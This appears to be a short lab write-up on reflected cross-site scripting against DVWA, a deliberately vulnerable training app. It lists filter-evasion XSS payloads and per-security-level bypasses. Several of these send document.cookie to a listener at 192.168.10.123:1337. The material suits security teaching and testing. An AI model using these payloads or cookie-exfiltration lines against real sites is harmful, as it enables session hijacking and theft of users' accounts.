




Reflected XSS
Reflected XSS is an injection attack where malicious scripts are sent to a vulnerable web server (often via URLs), and the server immediately includes (reflects) those scripts unsanitized in the HTML response back to the victim’s browser, which then executes them. It relies on the server reflecting user input directly into the response page.
Examples:
javascript:/*--></title></style></textarea></script></xmp>
<svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
<a href="javascript:alert(String.fromCharCode(88,83,83))">Click Me!</a>
<IMG SRC=# onmouseover="alert('xxs')">
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
DVWA has 3 settings to show different levels of security. Below are the bypasses for each level.
Low:
<script>alert(document.cookie)</script>

192.168.10.123/dvwa/vulnerabilities/xss_r/?name=<script>window.location='http://192.168.10.123:1337/?cookie=' + document.cookie</script>

Medium:
The developer has tried to add a simple pattern matching to remove any references to “script, to disable any JavaScript.
<IMG SRC=# onmouseover="alert(document.cookie">

<sc<script>ript>window.location='http://192.168.10.123:1337/?cookie=' + document.cookie</script>

High:
<IMG SRC=# onmouseover=window.location='http://192.168.10.123:1337/?cookie=' + document.cookie>
This didn’t show cookie.

References:
https://owasp.org/www-community/attacks/xss/
https://owasp.org/www-community/xss-filter-evasion-cheatsheet
https://en.wikipedia.org/wiki/Cross-site_scripting
https://www.cgisecurity.com/xss-faq.html
https://portswigger.net/web-security/cross-site-scripting/reflected